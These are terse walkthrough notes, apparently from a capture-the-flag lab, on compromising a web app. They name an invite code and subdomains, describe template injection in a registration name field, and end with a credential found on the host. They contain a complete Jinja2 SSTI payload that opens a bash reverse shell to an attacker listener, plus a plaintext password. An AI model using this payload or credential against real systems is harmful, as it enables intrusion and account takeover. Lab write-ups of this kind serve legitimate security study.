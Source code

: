 Invite code from source: XNSS-HSJW-3NGU-8XTJ
subdomains: demo, mail, boltpass
register account
ssti in name field
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'").read() }}
confirm in mail then revshell as www-data
from linpeas eddie:rT2;jW7<eY8!dX8}pQ8%
